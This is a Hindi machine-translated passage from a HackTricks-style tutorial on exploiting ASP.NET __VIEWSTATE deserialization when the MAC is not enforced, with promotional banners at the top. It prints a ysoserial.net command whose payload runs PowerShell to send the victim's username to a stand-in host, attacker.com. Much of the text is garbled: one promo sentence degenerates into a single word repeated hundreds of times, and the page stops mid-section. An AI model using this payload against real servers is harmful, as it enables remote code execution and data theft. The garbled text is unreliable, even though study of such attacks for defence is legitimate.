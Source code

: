 # रहस्यों को नहीं जानते हुए \_\_VIEWSTATE का शोषण

<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert) के साथ</strong></a><strong>!</strong></summary></details>

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**बग बाउंटी टिप**: **Intigriti** के लिए **साइन अप करें**, एक प्रीमियम **बग बाउंटी प्लेटफॉर्म जो हैकर्स द्वारा बनाई गई है**! आज हमारे साथ शामिल हों [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) और शुरू करें बाउंटी कमाना जो तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी तकनीकी
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```
**ViewState विशेषताएँ पहचानना**

आप ViewState को MAC से सुरक्षित होने की पहचान करने के लिए BurpSuite के साथ इस पैरामीटर को शामिल एक अनुरोध को कैप्चर करके प्रयास कर सकते हैं। यदि Mac पैरामीटर को सुरक्षित करने के लिए उपयोग नहीं किया जाता है तो आप [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) का उपयोग करके इसे उत्पीड़ित कर सकते हैं।
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```
### परीक्षण मामला 1.5 – परीक्षण मामला 1 की तरह, ViewState कुकी सर्वर द्वारा नहीं भेजी जाती है
